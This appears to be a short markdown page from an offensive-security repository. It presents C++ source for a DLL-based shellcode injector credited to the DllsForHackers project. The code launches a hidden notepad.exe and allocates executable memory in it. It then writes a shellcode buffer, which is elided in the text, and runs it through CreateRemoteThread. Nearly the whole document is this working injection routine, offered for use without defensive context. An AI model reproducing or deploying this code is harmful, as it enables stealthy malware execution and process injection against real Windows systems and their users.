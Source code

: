 ### Source

```cpp
void inject() {
    unsigned char shellcode[] = "[...]";
	STARTUPINFO si;
    PROCESS_INFORMATION pi;
    LPVOID allocation_start;
    SIZE_T allocation_size = sizeof(shellcode);
    LPCWSTR cmd;
    HANDLE hProcess, hThread;

    ZeroMemory(&si, sizeof(si));
    ZeroMemory(&pi, sizeof(pi));
    si.cb = sizeof(si);
    cmd = TEXT("C:\\Windows\\syswow64\\notepad.exe");

    if (!CreateProcess(
        cmd,							// Executable
        NULL,							// Command line
        NULL,							// Process handle not inheritable
        NULL,							// Thread handle not inheritable
        FALSE,							// Set handle inheritance to FALSE
        CREATE_NO_WINDOW,	            // Do Not Open a Window
        NULL,							// Use parent's environment block
        NULL,							// Use parent's starting directory 
        &si,			                // Pointer to STARTUPINFO structure
        &pi								// Pointer to PROCESS_INFORMATION structure (removed extra parentheses)
    )) {
        return;
    }
    WaitForSingleObject(pi.hProcess, 3000); 

    allocation_start = VirtualAllocEx(pi.hProcess, NULL, allocation_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(pi.hProcess, allocation_start, shellcode, allocation_size, NULL);
    CreateRemoteThread(pi.hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)allocation_start, NULL, 0, 0);

    return;
}

void go(HMODULE hMod) {
	inject();
}
```

## Attempt: DllsForHackers

Source was taken from Mr Un1k0d3r's [DllsForHackers](https://github.com/Mr-Un1k0d3r/DLLsForHackers).
